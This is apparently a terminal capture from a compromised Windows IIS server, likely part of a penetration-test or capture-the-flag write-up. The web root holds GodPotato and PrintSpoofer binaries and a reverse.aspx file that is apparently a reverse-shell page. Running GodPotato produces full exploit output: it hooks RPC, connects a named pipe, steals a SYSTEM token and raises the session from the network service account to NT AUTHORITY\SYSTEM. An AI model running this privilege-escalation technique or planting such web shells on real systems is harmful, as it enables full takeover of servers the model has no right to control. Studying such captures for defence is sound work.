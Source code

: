 ```css
C:\inetpub\wwwroot>dir
dir
 El volumen de la unidad C no tiene etiqueta.
 El n�mero de serie del volumen es: 26CD-AE41

 Directorio de C:\inetpub\wwwroot

08/04/2024  13:49    <DIR>          .
08/04/2024  13:49    <DIR>          ..
08/10/2023  23:22    <DIR>          03-comming-soon
08/10/2023  21:46    <DIR>          aspnet_client
08/10/2023  23:14    <DIR>          common-js
08/10/2023  23:14    <DIR>          fonts
08/04/2024  13:47            57.344 GodPotato-NET2.exe
08/04/2024  13:49            57.344 GodPotato-NET4.exe
08/04/2024  08:55               320 hello.aspx
08/10/2023  23:14    <DIR>          images
08/10/2023  23:26             1.481 index.html
08/04/2024  13:42            27.136 PrintSpoofer.exe
08/04/2024  09:05            15.970 reverse.aspx
               6 archivos        159.595 bytes
               7 dirs  45.572.755.456 bytes libres

C:\inetpub\wwwroot>GodPotato-NET4.exe -cmd "cmd /c whoami"
GodPotato-NET4.exe -cmd "cmd /c whoami"
[*] CombaseModule: 0x140709567922176
[*] DispatchTable: 0x140709570239728
[*] UseProtseqFunction: 0x140709569615008
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\42254cd5-fde6-4c69-9a5b-709b17a9aa80\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00004402-0330-ffff-5fb3-25e91f749669
[*] DCOM obj OXID: 0x68660599703e6daf
[*] DCOM obj OID: 0x9a5eb605185a6c3a
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\Servicio de red
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 764 Token:0x860  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 1764
nt authority\system
```
